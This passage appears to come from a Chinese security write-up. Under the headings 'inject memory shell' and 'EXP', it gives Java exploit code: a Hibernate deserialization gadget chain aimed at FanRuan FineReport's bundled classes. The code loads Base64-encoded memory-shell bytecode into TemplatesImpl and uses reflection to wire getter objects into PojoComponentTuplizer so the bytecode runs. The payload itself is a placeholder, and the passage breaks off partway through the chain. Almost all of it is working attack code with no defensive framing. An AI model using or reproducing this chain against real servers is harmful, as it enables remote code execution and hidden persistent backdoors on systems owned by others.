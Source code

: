 打入内存马  
  
**EXP**  
```
public class HibernateExp {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static Object createWithoutConstructor(Class aa) throws Exception{
        ReflectionFactory reflectionFactory = ReflectionFactory.getReflectionFactory();
        Object o = reflectionFactory.newConstructorForSerialization(aa, Object.class.getDeclaredConstructor()).newInstance();
        return o;
    }
    public static void main(String[] args) throws Exception{
        Class<?> componentTypeClass = Class.forName("com.fr.third.org.hibernate.type.ComponentType");
        Class<?> pojoComponentTuplizerClass = Class.forName("com.fr.third.org.hibernate.tuple.component.PojoComponentTuplizer");
        Class<?> abstractComponentTuplizerClass = Class.forName("com.fr.third.org.hibernate.tuple.component.AbstractComponentTuplizer");
        String memshell = "Base64编码的内存马";
        ClassPool pool = new ClassPool();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        byte[] bytes = new BASE64Decoder().decodeBuffer(memshell);

        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_name", "HibernateExp");
//        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        setFieldValue(templates, "_bytecodes", new byte[][]{bytes});
        Method getOutputProperties = TemplatesImpl.class.getDeclaredMethod("getOutputProperties");

        Object getter;
        try {
            // 创建 GetterMethodImpl 实例，用来触发 TemplatesImpl 的 getOutputProperties 方法
            Class<?> getterImpl = Class.forName("com.fr.third.org.hibernate.property.access.spi.GetterMethodImpl");
            Constructor<?> constructor = getterImpl.getDeclaredConstructors()[0];
            constructor.setAccessible(true);
            getter = constructor.newInstance(null, null, getOutputProperties);
        }catch (Exception ignored){
            // 创建 BasicGetter 实例，用来触发 TemplatesImpl 的 getOutputProperties 方法
            Class<?> basicGetter = Class.forName("com.fr.third.org.hibernate.property.BasicPropertyAccessor$BasicGetter");
            Constructor<?> constructor = basicGetter.getDeclaredConstructor(Class.class, Method.class, String.class);
            constructor.setAccessible(true);
            getter = constructor.newInstance(templates.getClass(), getOutputProperties, "outputProperties");
        }

        // 创建 PojoComponentTuplizer 实例，用来触发 Getter 方法
        Object tuplizer = createWithoutConstructor(pojoComponentTuplizerClass);

        // 反射将 BasicGetter 写入 PojoComponentTuplizer 的成员变量 getters 里
        Field field = abstractComponentTuplizerClass.getDeclaredField("getters");
        field.setAccessible(true);
        Object getters = Array.newInstance(getter.getClass(), 1);
        Array.set(getters, 0, getter);
        field.set(tuplizer, getters);

```